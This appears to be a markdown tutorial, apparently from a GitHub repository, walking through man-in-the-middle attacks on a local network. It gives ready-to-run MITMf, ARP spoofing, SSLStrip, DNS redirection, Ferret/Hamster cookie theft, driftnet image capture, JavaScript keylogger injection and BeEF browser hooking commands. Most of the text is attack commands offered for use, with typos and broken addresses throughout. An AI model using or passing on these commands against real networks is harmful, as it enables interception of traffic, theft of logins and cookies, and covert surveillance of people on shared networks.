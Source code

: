 # MAN IN THE MIDDLE ATTACKS

1. Gather information about the connected clients.
2. Understanding ARP
3. Understanding Man In Middle Attack

## Gather information about the client**

- Specify the manufacture company of the client devece.
- Discovering thier MAC IP addresses.
- Discovering their operating system.

***Netdiscover:** Is a network address discovering tool that was developed mainly for those wireless networks, IT send ARP REQUEST and SNIFFS for replaces.*

`netdiscover -i wlan0 -r 192.168._._`

Check router default getway address, `route -n`
Check wifi card name, `iwconfig`

***Zenmap:** Is the network discovery tool that can be used to get detailed information (client, network, target) on the internet. Zenmap is the of clal nmap security scanner GUI. It is a multi-platfrom such as Linux, Windows and Mac os.*

**Scap Type:**

- *Ping Scan:* Showing us the connected clients.
- *Quick Scan:* Showing us more details such as MAC address and the ports.
- *Quick Scan Plus:* Showing us the operating system and the ports and the name service of the port and the version.

## Address Resulation Protocol (ARP)

ARP is a network leayer protocol used to convert an IP address into a physical address.

*ARP is used to link out IP address to our ethernet address.*

**ARP security issue:**

1. Clients can accept a response even if they did not send a request.
2. Each ARP request or response is trusted.

**ARP SPOONG:** ARP Spooing is a type of attack in which a maliious actor sends falsied arp messages over a tocal area network.

- Sending ARP response to the client tells him I AM THE ROUTER.
- Sending ARP Request to the router tells him I AM THE CLIETNS.
- This will help us to poison the client ARP TABLE and put inside of router MAC address our MAC address.

**Capturing Login information using MITM**

*MITMf* is a comprehensive suite for Man In The Middle Attacks.

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.1.7 -i wlan0/eth0`

**Bypassing SSL Encryption Using SSLStrip**

`echo 1 > /proc/sys/net/ipv4/ip_forward`

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.1.7 -i wlan0/eth0 >> /root/Documents
test.txt`

**Regirect Client From To Website**

*DNS - is a server translate all the domain to an IP address.*

Run apache server first.

`service apache2 start`

The we will locate using this command, where is *mitmf.conf* file.

`locate mitmf.conf`

`/etc/mitmf/mitmf.conf`

Edit mitmf.conf file.

`nono /etc/mitmf/mitmf.conf`

We will go **[[[A]]]** records and add out index page.

`*.live.com=192.168.1.34`

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.1.7 -i wlan0/eth0 --dns`

**Stealing The Cookies**

**Cookies** are usually small text LES, given ID tags that are stored on your browers directory or program data subfolders.

- Stealing the cookies from the target browser.
- Inject the captured cookies into our borwser.
- Method is not working whth the websites that's uses HTTPS connection.
- We can bypass this issue by DOWNGRADING the connection from https to http ;) .

Tools:

*Ferret - Side Jack* to steal the cookies from the target browser.
*Hamster* To inject the captured cookies into our browser.

Run *mitmf*

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.31.7 -i wlan0`

Then run *ferret*

`ferret -i wlan0`

After run *hamster*. Its a browser interface tool. We have to setting it. Open brower and go to *Preferences > Network Proxy* settings.

Choose *Manual proxy configuration* and Set HTTP Proxy 127.0.0.1 and Port 1234.

Then go to 127.0.0.1:1234 and you will get all the cookies and you know how to use it ;).

**Capture screen short of the target client**

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.31.7 -i wlan0 --screen`

**Inject a keylogger into the target browser**

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.31.7 -i wlan0 --jskeylogger`

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.31.7 -i wlan0 --jskeylogger >> /roor/jslogger.txt`

**Capturing Images From Network Traffic**

**DRIFTNET** watches network traffic and packs out and displays JPEG and GIF images form display. It is a horric invasion of privacy and should not be used by anyone anywher.

- Poisoning the arp table of the target device using (MITMF or ARPSPOOF)
- Using DRIFTNET to capture the images.

`mitmf --arp --spoof --gateway 192.168.31.1 --target 192.168.31.7 -i wlan0`

`driftnet -i eth0/wlan0`

**Inject HTML File And IP The Images in The Browser**

1. Flipping the images 180 degree in the target browser.
	- `--upsidedownternet`
2. Inject HTMP file into the target browser.
	- `--inject ` and `--html-file`
3. Inject any sentence or any word.
4. Or Inject enter website into the target browser.

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.7 -i wlan0 --upsidedownternet`

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.7 -i wlan0 --inject --html-file /root/Documents/file_name.html`

## INJECT JAVASCRIPT URL AND HOOKING CLIENT'S WITH BEEF

**Beef** is short for the Browser Exploitation Framework. It is a penetration testing tool the focuses on the web browser.

`mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.7 -i wlan0 --inject --js-url http://192.168.1.107:3000/hook.js`

You knwo how to use beef or chek [MITM-Attacks - Beef Framework](https://github.com/jakiiii/MITM-Attacks/blob/master/2.MITMAttacks.md#beef-framework).


